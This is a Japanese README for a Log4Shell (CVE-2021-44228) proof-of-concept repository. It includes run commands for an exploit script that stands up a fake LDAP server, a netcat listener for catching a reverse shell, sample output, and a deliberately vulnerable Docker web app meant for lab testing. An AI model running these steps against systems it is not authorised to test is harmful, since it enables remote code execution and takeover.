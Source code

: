 # log4j-shell-poc
CVE-2021-44228(通称Log4shell)に対するPoC。  
最近、ElasticSearchや Minecraftなどで広く使われている Apacheのロギングライブラリlog4jに新たな脆弱性が発見されました。

このリポジトリでは、脆弱性のあるアプリケーションの例と、その脆弱性を利用したPoCの例を作成しています。

開発プロセスを示すビデオ
----------------------------------------

Vuln Webアプリケーション:

https://user-images.githubusercontent.com/87979263/146113359-20663eaa-555d-4d60-828d-a7f769ebd266.mp4

<br>

Ghidra (古いスクリプト):

https://user-images.githubusercontent.com/87979263/145728478-b4686da9-17d0-4511-be74-c6e6fff97740.mp4

<br>

Minecraft PoC (古いスクリプト):

https://user-images.githubusercontent.com/87979263/145681727-2bfd9884-a3e6-45dd-92e2-a624f29a8863.mp4


概念実証(PoC)
----------------------

PoCとして、プロセスを自動化するPythonファイルを作成しました。


```bash
pip install -r requirements.txt
```
#### :


* netcatリスナーを起動して、リバースシェル接続を受け入れます。<br>
```py
nc -lvnp 9001
```
* エクスプロイトを起動します。 <br>
**Note:** この作業を行うには、解凍したjavaアーカイブの名前が `jdk1.8.0_20` であり、同じディレクトリにある必要があります。
```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/NT25-CTF/log4j-shell-poc-ja

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send Exploit Code Port:1389

Listening on 0.0.0.0:1389
```

このスクリプトは、HTTPサーバーとLDAPサーバーをセットアップし、脆弱なパラメーターに貼り付けるために使用できるペイロードも作成します。 この後、すべてがうまくいけば、lportにシェルを取得する必要があります。 

<br>


脆弱性が含まれるアプリケーション
--------------------------

脆弱なWebアプリケーションにDockerfileを追加しました。 これは、以下の手順に従って使用できます。 
```c
1: docker build -t log4j-shell-poc .
2: docker run --network host log4j-shell-poc
```
実行すると、localhost:8080でアクセスできます。

プロジェクトをさらに開発したい場合は、プロジェクトの開発に使用したIntellijIDEを使用できます。 また、作業を少し簡単にする構成ファイルがある`.idea`フォルダーも含まれています。 おそらく他のIDEも使用できます。 



jdkバージョンの取得
--------------------------------------

Exploitを作成した時点では、どのバージョンのJavaが動作し、どのバージョンが動作しないのかがはっきりしなかったため、Java 8の最も古いバージョンの1つである`java-8u20`で動作させることにしました。

```
> https://drive.google.com/file/d/1r8F3X2e2pCN5Iar62yG4M0H8HuBK_4by/view?usp=sharing
```

アーカイブをダウンロードして解凍すると、`java` といくつかの関連するバイナリが `jdk1.8.0_20/bin` の中にあります。  
**注意：** 動作させるためには、このリポジトリにjdkフォルダを同名で展開するようにしてください。

```
> tar -xf jdk-8u20-linux-x64.tar.gz

> ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```

免責事項
----------
このリポジトリは、CVE-2021-44228へのワンクリックエクスプロイトを目的としたものではありません。 このプロジェクトの目的は、人々がこの素晴らしい脆弱性について学び、おそらく自分のアプリケーションをテストするのを助けることです（ただし、この目的のためのより良いアプリケーションがあります。 [https://log4shell.tools/](https://log4shell.tools/))

私たちのチームは、悪意のある活動に対するこのエクスプロイトの使用を支援または推奨しません。したがって、支援を求める場合は、ターゲットサービスを所有しているか、ペネトレーションテストを行う権限があることを証明するものを提供する必要があります。